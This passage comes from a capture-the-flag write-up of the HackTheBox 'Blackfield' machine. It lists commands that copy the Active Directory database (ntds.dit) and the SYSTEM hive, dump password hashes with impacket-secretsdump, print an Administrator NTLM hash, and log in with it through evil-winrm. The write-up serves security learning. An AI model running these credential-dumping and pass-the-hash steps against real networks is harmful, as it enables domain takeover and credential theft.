 ![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Blackfield%20Box%20ccad48e710034cebaaf746bd274bada3/Untitled%2016.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Blackfield%20Box%20ccad48e710034cebaaf746bd274bada3/Untitled%2016.png)

- Copying the ntds file and downloading it 

**robocopy /B z:\Windows\ntds .\ntds ntds.dit**
- Downloading the SYSTEM registry file

**reg save HKLM\SYSTEM SYSTEM**
- Finally now we will dump the hashes using impacket-secretsdump

**impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL**

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
```

⇒ Now we have Administrator NTLM hash which we used for authentication with evil-winrm

**evil-winrm -u Administrator -H 184fb5e5178480be64824d4cd53b99ee -i 10.10.10.192**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Blackfield%20Box%20ccad48e710034cebaaf746bd274bada3/Untitled%2017.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Blackfield%20Box%20ccad48e710034cebaaf746bd274bada3/Untitled%2017.png)
